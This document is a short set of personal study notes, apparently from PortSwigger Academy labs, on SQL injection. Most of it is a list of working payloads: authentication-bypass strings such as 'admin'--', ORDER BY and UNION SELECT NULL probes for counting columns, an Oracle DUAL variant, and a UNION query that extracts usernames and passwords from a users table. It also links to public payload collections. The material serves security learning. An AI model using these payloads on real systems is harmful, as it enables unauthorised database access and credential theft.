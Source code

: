 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after
- ```+``` URL encoding for simple space ' ' 
- ```%20``` Same as above ... URL encoding for simple space ' ' 
- ```%27``` means this bad boy '
- ```

Payloads that just worked somewhere:
```
'--
admin'--
administrator'-- 
' OR 1=1 -- 
OR 1=1 -- 
```
So how many collumns do we have? 
```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL, NULL-- 
' UNION SELECT NULL, NULL, NULL-- 

' UNION SELECT NULL FROM DUAL-- 
' UNION SELECT NULL, NULL FROM DUAL-- 
' UNION SELECT NULL, NULL, NULL FROM DUAL-- 


' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT username, password FROM users-- 
```
- The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment. 

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
